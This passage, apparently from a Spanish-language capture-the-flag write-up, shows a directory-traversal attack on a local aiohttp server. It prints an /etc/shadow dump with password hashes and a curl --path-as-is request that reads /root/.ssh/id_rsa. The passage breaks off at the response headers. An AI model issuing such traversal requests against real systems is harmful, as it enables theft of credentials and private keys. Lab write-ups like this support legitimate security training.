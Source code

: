 ```bash
< Content-Length: 1343
< Accept-Ranges: bytes
< Date: Sat, 08 Mar 2025 13:08:18 GMT
< Server: Python/3.9 aiohttp/3.9.1
< 
root:$6$51.cQv3bNpiiUadY$0qMYr0nZDIHuPMZuR4e7Lirpje9PwW666fRaPKI8wTaTVBm5fgkaBEojzzjsF.jjH0K0JWi3/poCT6OfBkRpl.:19891:0:99999:7:::
daemon:*:19430:0:99999:7:::
bin:*:19430:0:99999:7:::
sys:*:19430:0:99999:7:::
sync:*:19430:0:99999:7:::
games:*:19430:0:99999:7:::
man:*:19430:0:99999:7:::
lp:*:19430:0:99999:7:::
mail:*:19430:0:99999:7:::
news:*:19430:0:99999:7:::
uucp:*:19430:0:99999:7:::
proxy:*:19430:0:99999:7:::
www-data:*:19430:0:99999:7:::
backup:*:19430:0:99999:7:::
list:*:19430:0:99999:7:::
irc:*:19430:0:99999:7:::
gnats:*:19430:0:99999:7:::
nobody:*:19430:0:99999:7:::
systemd-network:*:19430:0:99999:7:::
systemd-resolve:*:19430:0:99999:7:::
systemd-timesync:*:19430:0:99999:7:::
messagebus:*:19430:0:99999:7:::
syslog:*:19430:0:99999:7:::
_apt:*:19430:0:99999:7:::
tss:*:19430:0:99999:7:::
uuidd:*:19430:0:99999:7:::
tcpdump:*:19430:0:99999:7:::
landscape:*:19430:0:99999:7:::
pollinate:*:19430:0:99999:7:::
fwupd-refresh:*:19430:0:99999:7:::
usbmux:*:19889:0:99999:7:::
sshd:*:19889:0:99999:7:::
systemd-coredump:!!:19889::::::
rosa:$6$giyD4I2YumzG4k6.$0h0Gtrjj13qoK6m0XevedDBanbEz6BStzsLwUtrDm5sVkmnHOSSWF8f6W8B9btTEzyskmA2h/7F7gyvX1fzrT0:19893:0:99999:7:::
lxd:!:19889::::::
app:$6$XUL17hADm4qICsPv$QvCHMOImUTmS1jiaTQ2t6ZJtDAzgkqRhFYOMd0nty3lLwpyxTiyMWRgO/jbySPENinpJlL0z3MK1OVEaG44sQ1:19890:0:99999:7:::
_laurel:!:20007::::::
* Connection #0 to host 127.0.0.1 left intact
```

Lo mismo con `/root/.ssh/id_rsa`:

```bash
rosa@chemistry:~$ curl -v --path-as-is http://127.0.0.1:8080/assets/../../../root/.ssh/id_rsa
*   Trying 127.0.0.1:8080...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /assets/../../../root/.ssh/id_rsa HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.68.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: application/octet-stream
< Etag: "17d9a4c79c30680c-a2a"
```